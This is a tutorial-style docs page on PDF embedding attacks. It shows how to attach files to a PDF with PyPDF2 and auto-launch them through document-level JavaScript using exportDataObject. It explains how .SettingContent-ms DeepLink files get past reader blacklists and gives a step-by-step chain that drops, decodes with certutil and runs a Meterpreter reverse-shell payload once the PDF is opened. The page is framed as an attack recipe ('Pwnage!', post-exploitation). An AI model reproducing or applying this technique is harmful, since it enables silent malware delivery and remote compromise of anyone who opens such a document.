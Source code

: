 # docs


/// PDF Embedding Attacks


PDF, or Portable Document Format, is an incredibly complex file format, governed by many standards and semi-standards. Like HTML and CSS, it was primarily designed for document layout and presentation. Also like HTML and CSS, it has been augmented with a JavaScript engine and document API that allows programmers to turn PDF documents into applications - or vehicles for malware.


/// Embedding Files in PDF Documents

It’s very easy to embed any kind of file in a PDF document. Every document includes the EmbeddedFiles name tree, along with support for collections of files, known as portfolios.

Most PDF libraries provide support for this; we’ll examine PyPDF2, which supports everything we need and is pure Python.

PyPDF2’s PdfFileWriter provides a method called addAttachment which takes a name and some bytes and embeds them as a file in the PDF (docs).

This is how malware is usually concealed in a PDF document - as an embedded file.
Opening Files from PDF Documents

Now that we have a payload embedded in a PDF document, we need to actually open it. The basic method for this is to also embed a script in the PDF document. In our case, we want to add a document level script. This script will execute as soon as the PDF is opened.

Fortunately, PyPDF2 also supports this! We can simply add a JavaScript object with the method addJS, and that JavaScript will be registered to run on the PDF opening.

Our JavaScript payload is pretty simple: we just add a single call to exportDataObject, a function provided by the PDF reader. This function takes an object with 2 parameters:

    cName, the name of the embedded object, and
    nLaunch, an instruction as to what the PDF reader should do with the exported object

nLaunch is just an integer, and it has three valid values:

    Prompt the user for a path and save the file there
    Prompt the user for a path, save the file, and ask the operating system to open it
    Pick a temporary location, save the file there, and ask the operating system to open it

That last option sounds great for malware. Assuming we embedded a file called myExploit.exe, we would add the following JavaScript:

this.exportDataObject({
    cName: "myExploit.exe",
    nLaunch: 2,
});

and it would run as soon as the PDF was opened, right? Well, not quite. Unfortunately, there’s a bit more to it; Adobe Reader (and most other readers) will prevent the launch of common executable files. For example, .exe, .js, .vba, and .bat files cannot be opened.
Evading the Blacklist

There are many ways to evade the blacklist, such as Microsoft Word documents with malicious macros embedded in them (read more), but recently, researchers discovered that another kind of file could be used: .SettingContent-ms. As explained by the SpecterOps team, these are just XML documents pointing to specific places in the Windows 10 settings GUI. However, they contain a field called DeepLink which can contain any arbitrary executable which will be run when the SettingsContent-ms file is executed.
Deploying a Payload

Let’s bring this all together. How would we use this in a real attack?

There are a few steps we need to perform in order to get this attack working.
1: Create a Payload

There are many great ways of creating effective payloads. In this case, I’ll assume you have a payload already; my payload of choice is a Meterpreter reverse shell encoded with some type of cloaker.
2: Encode the Payload in Base64

We can use certutil.exe -encode InputFile EncodedFile on Windows or base64 input > output on Linux to encode and decode files with Base64. This will let us more readily insert it where it is needed.
3: Embedded Files

We need to run 3 commands, so we’ll use the above method to embed three files. They will all be valid SettingContent-ms XML, differing only in the DeepLink node.

    PutFile.SettingContent-ms which will echo the Base64 encoded payload to disk at a known path (echo b46c827y... > %APPDATA%\evil.b64).
    Decode.SettingContent-ms which will decode the Base64 encoded payload into an EXE ( certutil -decode %APPDATA%\evil.b64 %APPDATA%\evil.exe)
    Execute.SettingContent-ms which will actually run that file. (%APPDATA%\evil.exe)

4: Scripts

Now, we need a single script which will run all of these:

var files = ["PutFile", "Decode", "Execute"];
for (var i = 0; i < files.len; i++) {
	this.exportDataObject({
		cName: files[i] + ".SettingContent-ms",
		nLaunch: 2,
	});
}

5: Pwnage!

Now we have our Metasploit payload running on the target! Congratulations, time to move into post-exploitation.
Alternative Methods

Another method would be to use Reflective PE Injection, converting a PowerShell process into the process for our executable. To learn more about this, check out this post.
Conclusion

PDF files are extremely complex, and the applications that read them tend to be old and full of cruft, designed without security in mind. A black-listing method will never be effective in eliminating all dangerous files, as we can see here. This technique requires no exploits; we just ask the OS to run a file for us and it does so!

Last updated Jun 8 2023 
